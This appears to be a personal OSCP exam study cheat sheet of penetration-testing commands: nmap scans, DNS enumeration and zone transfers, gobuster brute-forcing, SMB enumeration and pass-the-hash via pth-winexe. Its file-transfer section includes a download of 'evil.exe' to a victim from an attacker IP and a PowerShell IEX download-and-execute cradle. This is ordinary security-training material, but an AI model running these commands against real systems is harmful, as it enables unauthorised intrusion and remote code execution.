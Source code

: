 # OSCP Notes

------------------------------------------------------------

**Recon:**

nmap -sC -sV -oA nmap/"host" <IP>

nmap -Pn -p- --open -v <IP>

nmap --script vuln -p <PORTS> <IP>

**DNS Enumeration:**

host -t ns/mx <domain name.com>

**Forward DNS lookup:**

for name in $(cat list.txt);do
    host $name.DOMAIN.com |grep "has address" |cut -d" " -f1,4
done

**Reverse DNS lookup:**

for ip in $(seq 1 254);do
    host 10.11.1.$ip |grep "domain" |cut -d" " -f1,5
done

**DNS zone Transfer:**

host -l <DOMAIN NAME> <NAME SERVER>


**SMTP User Enumeration:**

See /opt/scripts for vrfy.py

**Directory brute-force:**

gobuster dir -u http:// -w /usr/share/seclist/Discovery/Web-Content/common.txt -t50 (-k to ignore ssl)

gobuster dir -u http:// -w /usr/share/wordlist/dirbuster/directory-list2.3-medium -t50 (-k to ignore ssl)


**File transfer methods:**

cscript wget.vbs(Echo the file to the victim machine) http://10.1.2.111:8000/evil.exe evil.exe

IEX(New-Object Net.Webclient)downloadString(http://x.x.x.x/file)


**SMB**

smbclient -L <IP> # to list shares

smbclient //x.x.x.x/sharename # to log into the share

smbmap -H <IP> # to list shares and display read/write permissions.

**PASS The HASH**

1 .Take the NTLM hash and export it as:

export SMBHASH=<<<<<<<<<<<<<<NTLM_HASH_HERE>>>>>>>>>>>>>>>>>>

2 .run the command:

pth-winexe -U <USER> % //x.x.x.x cmd
    
    




